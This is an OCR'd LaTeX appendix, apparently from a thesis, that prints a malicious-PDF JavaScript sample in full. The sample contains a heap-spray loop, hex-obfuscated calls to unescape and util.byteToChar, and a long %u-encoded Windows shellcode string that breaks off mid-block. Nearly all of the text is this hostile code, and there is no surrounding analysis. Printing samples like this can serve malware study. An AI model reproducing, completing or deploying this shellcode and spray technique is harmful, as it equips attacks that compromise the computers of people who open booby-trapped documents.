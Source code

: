 \begin{appendices}
\renewcommand\thechapter{\Asbuk{chapter}}
\setcounter{chapter}{0}
 

\begingroup
\fontsize{8pt}{8pt}\selectfont
\begin{verbatim}
var sc;//ahlfah
for(i=0;i<18000;i++)
sc = sc+0x70;
var unes=unescape
var h1="\x62\x79\x74\x65\x54\x6f\x43\x68\x61\x72";
function rep(count,what){
          var v = "";
          while (--count >= 0) v += what;
          return v;
}

function myunes(buf) {
          var ret='';
          for (var x=0;x < buf["\x6c\x65\x6e\x67\x74\x68"]; x+=2) {
                  ret += util[h1](Number('0x'+buf["\x73\x75\x62\x73\x74\x72"](x,2)));//
          }
          return ret;
}
sc=unes("\x25\x7530e8\x25\x750000\x25\x75ad00\x25\x757d9b\x25\x75acdf\x25\x75da08\x25\x751676\x25\x75fa65" +
"%uec10%u0397%ufb0c%ufd97%u330f%u8aca%uea5b%u8a49" +
"%ud9e8%u238a%u98e9%u8afe%u700e%uef73%uf636%ub922" +
"%u7e7c%ue2d8%u5b73%u8955%u81e5%u48ec%u0002%u8900" +
"%ufc5d%u306a%u6459%u018b%u408b%u8b0c%u1c70%u8bad" +
"%u0858%u0c6a%u8b59%ufc7d%u5351%u74ff%ufc8f%u8de8" +
"%u0002%u5900%u4489%ufc8f%ueee2%u016a%u8d5e%uf445" +
"\x25\x755650\x25\x75078b\x25\x75d0ff\x25\x754589\x25\x753df0\x25\x75ffff\x25\x75ffff\x25\x750475"+
"%u5646%ue8eb%u003d%u0020%u7700%u4604%ueb56%u6add" +
"%u6a00%u6800%u1200%u0000%u8b56%u0447%ud0ff%u006a" +
"%u458d%u50ec%u086a%u458d%u50b8%u8b56%u0847%ud0ff" +
"%uc085%u0475%u5646%ub4eb%u7d81%u50b8%u5064%u7444" +
"%u4604%ueb56%u81a7%ubc7d%ufeef%uaeea%u0474%u5646" +
"%u9aeb%u75ff%u6af0%uff40%u0c57%u4589%u85d8%u75c0" +
"%ue905%u0205%u0000%u006a%u006a%u006a%uff56%u0457" +
"%u006a%u458d%u50ec%u75ff%ufff0%ud875%uff56%u0857"+
"%uc085%u0575%ue2e9%u0001%u5600%u57ff%u8b10%ud85d" +
"%u838b%u1210\x25\x750000%u4589%u8be8%u1483%u0012%u8900"+
"%ue445%u838b%u1218%u0000%u4589%u03e0%ue445%u4503" +
"%u89e8%udc45%u8a48%u0394%u121c%u0000%uc230%u9488" +
"%u1c03%u0012%u8500%u77c0%u8deb%ub885%ufffe%u50ff" +
"%uf868%u0000%uff00%u1457%ubb8d%u121c\x25\x750000%uc981" +
"\x25\x75ffff\x25\x75ffff\x25\x75c031\x25\x75aef2%ud1f7%ucf29%ufe89%uca89" +
"%ubd8d%ufeb8\x25\x75ffff%uc981\x25\x75ffff\x25\x75ffff%uaef2%u894f"+
"%uf3d1%u6aa4%u8d02%ub885%ufffe%u50ff%u7d8b%ufffc" +
"%u1857%uff3d\x25\x75ffff%u75ff%ue905%u014d\x25\x750000%u4589" +
"%u89c8%uffc2%ue875%u838d%u121c\x25\x750000%u4503%u50e0"+
"%ub952%u0100%u0000%u548a%ufe48%u748a%uff48%u7488" +
"%ufe48%u5488%uff48%ueee2%u57ff%uff1c%uc875%u57ff" +
"%u8d10%ub885%ufffe%ue8ff%u0000%u0000%u0481%u1024" +

\end{verbatim}
\end{appendices}
